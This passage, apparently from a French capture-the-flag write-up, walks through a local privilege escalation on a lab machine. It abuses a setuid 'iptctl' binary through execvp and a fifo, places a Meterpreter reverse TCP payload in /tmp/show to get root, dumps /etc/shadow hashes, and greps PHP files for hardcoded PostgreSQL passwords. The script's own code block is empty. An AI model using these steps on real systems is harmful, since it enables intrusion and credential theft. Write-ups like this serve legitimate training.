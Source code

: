 ```python
```

J'ai mis comme action */tmp/show* ce qui permet de passer la vérification de *isValidAction()* et est aussi un chemin que l'on peut contrôler.  

*execvp()* est plus difficile à utiliser qu'on peut le penser car on ne peut pas lui donner n'importe quoi en second argument mais il fonctionne s'il a 0 qu'il doit considérer comme NULL.  

Pour utiliser l'exploit il faut deux shells, l'un qui créé la fifo et exécute *iptctl* qui va lire dessus :  

```bash
mkfifo /tmp/myfifo; cat /tmp/myfifo| ./iptctl -i
```

Et le second lance juste l'exploit :  

```bash
python3 iptctl_exploit.py /tmp/myfifo
```

A l'emplacement */tmp/show* on mettra par exemple un reverse *Metepreter*. Avec un inline (linux/x64/meterpreter\_reverse\_tcp) ça fonctionnait mais *iptctl* crashait avec un stager.  

On a alors les droits pour lire le flag (*892a1f4d0*...) ou */etc/shadow* :  

```plain
root:$6$sGf6YPC9$H0ocTuQ4NWwgjlI0tMLXOb3jYR4QSOArGpeh/C7FL9HFpMSGGk4cDbKlyCwyrOVaCShgUOz3KVQP63OGs9Ij1.:17692:0:99999:7:::
penelope:$6$t15lzJqW$jAvVr1665q0qlnO.cbXOZp8hbgQRwNIv31gxvGASVMOYOrw4/LR6b/YQnk3DWxE4zl3BKCAqIm8CkWo/uuRi1.:17692:0:99999:7:::
```

You've got a mail
-----------------

Maintenant quelle était la méthode pour obtenir le flag de *Penelope* sans obtenir directement le root ?  

Quand on a notre premier shell on peut chercher dans les scripts PHP les identifiants PostgreSQL :  

```plain
$ grep -r --include "*.php" pg_connect * 2>/dev/null                    
admin/pages/firewall.php:   $dbconn = pg_connect("host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&");
admin/pages/users.php:  $dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixnss password=fios@ew023xnw");
admin/pages/actions.php:    $dbconn = pg_connect("host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&");
admin/pages/actions.php:    $dbconn = pg_connect("host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&");
admin/pages/actions.php:    $dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixusrmgr password=dheu%7wjx8B&");
admin/pages/actions.php:    $dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixusrmgr password=dheu%7wjx8B&");
```

La base *redcross* liée à l'utilisateur *www* contient juste une table *ipgrants* correspondant aux enregistrements pour le whitelist d'adresses IP.  
